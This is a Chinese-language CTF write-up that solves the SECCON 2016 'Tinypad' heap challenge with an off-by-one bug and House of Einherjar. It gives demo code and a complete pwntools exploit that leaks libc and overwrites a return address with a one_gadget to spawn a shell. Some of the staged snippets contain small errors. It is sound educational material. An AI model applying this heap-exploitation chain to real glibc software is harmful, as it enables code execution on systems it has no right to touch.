







## Tinypad Seccon CTF 2016(House Of Einherjar)

### 序言
> 随着对`how2heap`的学习, 难度也是越来越大, 改革进入了深水区.

### 程序运行
**1.菜单**
```
| [A] Add memo                                                                 |
| [D] Delete memo                                                              |
| [E] Edit memo                                                                |
| [Q] Quit      
```
**2. Add memo**
```
(CMD)>>>  A

(SIZE)>>> 32
(CONTENT)>>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Added.
```
**3. Delete memo**
```
(CMD)>>> D

(INDEX)>>> 1

Deleted.
```
**4. Edit memo**
```
(CMD)>>> E

(INDEX)>>> 1
CONTENT: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(CONTENT)>>> BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Is it OK?
(Y/n)>>> Y

Edited.
```
**5. Exit**
```
(CMD)>>>  Q
```
### 程序分析
**1. checksec**
```
struct node{
  int size;
  char* s;
}tinypad[4];

Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
&nbsp;&nbsp;&nbsp;&nbsp;**结论:** `Full RELRO`代表我们不能复写`got`表.`NX`代表我们不能使用`shellcode`, `Canary found`代表我们不能使用栈溢出.说实话, 现在的`CTF`全国性质大赛使用栈溢出的题已经比较少了, 大部分都是`PWN`技能的高级应用.

**2. 内存泄露**
> &nbsp;&nbsp;&nbsp;&nbsp;通过观察发现, 程序定了一个`tinypad`的数组, 数组存放在`0x6020140`.`Delete memo`时程序只是将`size`置为`0`,将`s`对应的堆地址释放, 并没有将`s`本身置为`NULL`, 而程序就是通过判断`s`是否为空来进行显示对应的数组内容, 于是存在内存泄露.



**３.缓冲区**


> &nbsp;&nbsp;&nbsp;&nbsp;通过上图分析, 程序会将`0x602040`作为一个编辑的缓冲去, 输入`Y`之后才会将输入内容复制到`s`对应的堆块中去.

**4.一个假设**

&nbsp;&nbsp;&nbsp;&nbsp;假如我们能够分配一个地址在`0x602040`附近, 那么我们就能通过分配足够的内存, 编辑`tinypad`数组的内容, 修改`s`指向的堆块, 实现任意地址读写.

### 知识点讲解
**1. Off By One**
> `Off By One`经常和`Hous Of Attack`之类的技巧组合在一起.

**2. House Of Einherjar**
> 该堆利用技术可以强制使得`malloc`返回一个几乎任意地址的`chunk`.其主要在于滥用`free`中的后巷合并操作.

**结论:** 二者配合使用, 可以发挥无穷威力.

**栗子**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void){
    char* s0 = malloc(0x200);　//构造fake chunk
    char* s1 = malloc(0x18);  
    char* s2 = malloc(0xf0);　
    char* s3 = malloc(0x20); //为了不让s2与top chunk 合并
    printf("begin\n");
    printf("%p\n", s0);
    printf("input s0\n");
    read(0, s0, 0x200); //读入fake chunk
    printf("input s1\n");
    read(0, s1, 0x19); //Off By One
    free(s2);
    return 0;
}
```
对应的利用程序
```python
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
'''
p64(address) * 2是为了绕过
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr ("corrupted double-linked list");   
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00"
p.sendline(payload)
p.recvall()
p.close()
```
**前**



----
**后**


```
unsorted bin @ 0x7fb86398eb88
	free chunk @ 0x17ff010 - size 0x320
```
&nbsp;&nbsp;&nbsp;&nbsp;**结论:** 通过修改对应的`size`, 我们几乎可以实现任意地址读写. 这个利用脚本将`unsorted bin`中的`fd`, `bk`指向我们`fake chunk`所在地址.

### 漏洞分析

**1.Off By One**



**2. 逻辑漏洞**



**结论:**　可以显示释放后的地址的内容, 泄露堆地址.

### 过程
**1. 泄露**
原理: 利用`unsorted bin`中的空闲块是双链表的特性.
```
add(0x80, "A"*0x80)
add(0x80, "B"*0x80)
add(0x80, "C"*0x80)
add(0x80, "D"*0x80)
delete(3)
delete(1)
```


**2.House Of Einherjar**
```
add(0x18, "A"*0x18)
add(0x100, "B"*0xf8 + p64(0x11))
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)

tinypad = 0x602040
offset = heap + 0x20 - 0x602040 - 0x20
fake_chunk = p64(0) + p64(0x101) + p64(0x602060) * 2

edit(3, "D"*0x20 + fake_chunk)
zero_byte_number = 8 - len(p64(offset).strip("\x00"))
'''
循环edit的原因是stcpy()会因为空子节而停止copy, 但每次读取都会将最后一个字节变为NULL, 这样就可以用NULL逐一覆盖, 使2号chunk的prev_size为offset
'''
for i in range(zero_byte_number+1):
  data = "A"*0x10 + p64(offset).strip("\x00").rjust(8-i, 'f')
  edit(1, data)
delete(2)
edit(4, "D"*0x20 + p64(0) + p64(0x101) + p64(main_arena + 0x58)*2) #修复unsorted bin
```


**3.攻击**

> &nbsp;&nbsp;&nbsp;&nbsp;将`main`函数的返回值地址修改为`one_gadget`地址
> 由于程序是现将`size`和`s`先存放入数组, 后读取内容,　我们可以控制`index`1指向的地址.

```python

libc_base = main_arena + 0x58 - 0x3c4b78
one_gadget = libc_base + 0x45216
environ_pointer = libc_base + libc.[__environ]
log.info("libc_base: %s" % hex(libc_base))

add(0xf8, "D"*(0x100-0x30) + p64(0x18) + p64(environ_pointer) + 'a'*8 + p64(0x602148))
'''
申请的大小必须为0xf8或0xf0, 要不然不会返回tinypad的地址.
'''
p.recvuntil(" #   INDEX: 1\n")
p.recvuntil(" # CONTENT: ")
main_ret = u64(p.recvline().rstrip().ljust(8, "\x00")) - 0x8*30
log.info("environ_addr: %s" % hex(environ_addr))
edit(2, p64(main_ret)) #修改为environ
edit(1, p64(one_gadget))  #
p.interactive()
```
### 完整EXP
```python
from pwn import *

p = process("./tinypad")
libc = ELF("./libc.so.6")
context.log_level = 'debug'


def add(size, content):
    p.recvuntil("(CMD)>>> ")
    p.sendline("A")
    p.recvuntil("(SIZE)>>> ")
    p.sendline(str(size))
    p.recvuntil("(CONTENT)>>> ")
    p.sendline(content)

def delete(index):

    p.recvuntil("(CMD)>>> ")
    p.sendline("D")
    p.recvuntil("(INDEX)>>> ")
    p.sendline(str(index))

def edit(index, content, ok=True):
    p.recvuntil("(CMD)>>> ")
    p.sendline("E")
    p.recvuntil("(INDEX)>>> ")
    p.sendline(str(index))
    p.recvuntil("(CONTENT)>>> ")
    p.sendline(content)
    p.recvuntil("(Y/n)>>> ")
    if ok:
        p.sendline("Y")
    else:
        p.sendline("n")

#stage one
add(0x80, "A"*0x80)
add(0x80, "B"*0x80)
add(0x80, "C"*0x80)
add(0x80, "D"*0x80)
delete(3)
delete(1)

p.recvuntil(" #   INDEX: 1\n")
p.recvuntil(" # CONTENT: ")
heap = u64(p.recvline().rstrip().ljust(8, "\x00")) - 0x120
log.info("heap_base: %s" % hex(heap))
p.recvuntil(" #   INDEX: 3\n")
p.recvuntil(" # CONTENT: ")
main_arena = u64(p.recv(6).ljust(8, "\x00")) - 0x58
log.info("main_arena: %s" % hex(main_arena))

delete(2)
delete(4)

#stage two
add(0x18, "A"*0x18)
add(0x100, "B"*0xf8 + p64(0x11))
add(0x100, "C"*0xf8)
add(0x100, "D"*0xf8)


tinypad = 0x602040
offset = heap + 0x20 - 0x602040 - 0x20
fake_chunk = p64(0) + p64(0x101) + p64(0x602060) * 2

edit(3, "D"*0x20 + fake_chunk)
zero_byte_number = 8 - len(p64(offset).strip("\x00"))
for i in range(zero_byte_number+1):
  data = "A"*0x10 + p64(offset).strip("\x00").rjust(8-i, 'f')
  edit(1, data)


delete(2)
edit(4, "D"*0x20 + p64(0) + p64(0x101) + p64(main_arena + 0x58)*2)

#gdb.attach(p)

#stage three
libc_base = main_arena + 0x58 - 0x3c4b78
log.info("libc_base: %s" % hex(libc_base))
one_gadget =  libc_base + 0x45216
environ_pointer = libc_base + libc.symbols['__environ']

add(0xf0, "A"*0xd0 + p64(0x18) + p64(environ_pointer) + 'a'*8 + p64(0x602148))

p.recvuntil(" #   INDEX: 1\n")
p.recvuntil(" # CONTENT: ")
main_ret = u64(p.recvline().rstrip().ljust(8, "\x00")) - 0x8*30
log.info("environ_addr: %s" % hex(main_ret))
edit(2, p64(main_ret))
edit(1, p64(one_gadget))
#p.recvall()
p.interactive()
```
### 多说一句
> 其他思路也是可以修改`top chunk`,来做到这一点的, 无奈水平有限，　以后再分析
### 相关链接
[CTF WIKI](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/house_of_einherjar/)
[相关文件](https://github.com/BBS-Bill-Gates/CTF/tree/master/how2heap/house_of_einherjar)
